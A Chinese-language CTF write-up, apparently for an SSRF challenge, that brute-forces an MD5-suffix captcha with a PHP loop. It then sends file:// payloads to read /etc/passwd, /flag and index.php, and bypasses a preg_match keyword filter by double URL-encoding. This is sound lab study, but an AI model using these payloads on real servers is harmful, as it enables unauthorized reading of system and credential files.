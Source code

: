 ### write up 
Captcha的地方写着代码：substr(md5(captcha), -6, 6) == "974961"，很明显验证码的md5值的后六位要等于指定的数字。
    '''json
          <?php
for ($i=0; $i < 1000000000; $i++) {
    $a = substr(md5($i), -6, 6);
    if ($a == "fc6943") {   //此处为==后面的内容
        echo $i;   //输出验证码
        break;
    }
}
?>
  '''


解决了验证码的问题后，我们可以试着通过SSRF中URL伪协议file://来访问服务器的文件，例如/etc/passwd
url=file:///etc/passwd&captcha=*****
接着试试能不能访问/flag文件
url=file:///flag&captcha=*****
再试试看能不能读网页的源代码
url=file:///var/www/html/index.php&captcha=*****
******************code************************
<?php
error_reporting(0);
session_start();
require_once "lib.php";
init();
 
$is_die = 0;
$is_post = 0;
$die_mess = '';
$url = '';
 
if (isset($_POST['url']) && isset($_POST['captcha']) && !empty($_POST['url']) && !empty($_POST['captcha']))
{
    $url = $_POST['url'];
    $captcha = $_POST['captcha'];
    $is_post = 1;
    if ( $captcha !== $_SESSION['answer'])
    {
        $die_mess = "wrong captcha";
        $is_die = 1;
    }
    if ( preg_match('/flag|proc|log/i', $url) )
    {
        $die_mess = "hacker";
        $is_die = 1;
    }
}

阅读源码，发现确实对flag进行了过滤 preg_match('/flag|proc|log/i', $url) ，那么就需要对preg_match函数进行绕过。
同时因为/i 表明不区分大小写，因此无法通过大小写绕过。试试URL编码，file:///%66%6c%61%67
url=file:///%66%6c%61%67&captcha=*****
一次不行进行二次编码：
url=file:///%25%36%36%25%36%63%25%36%31%25%36%37&captcha=*****
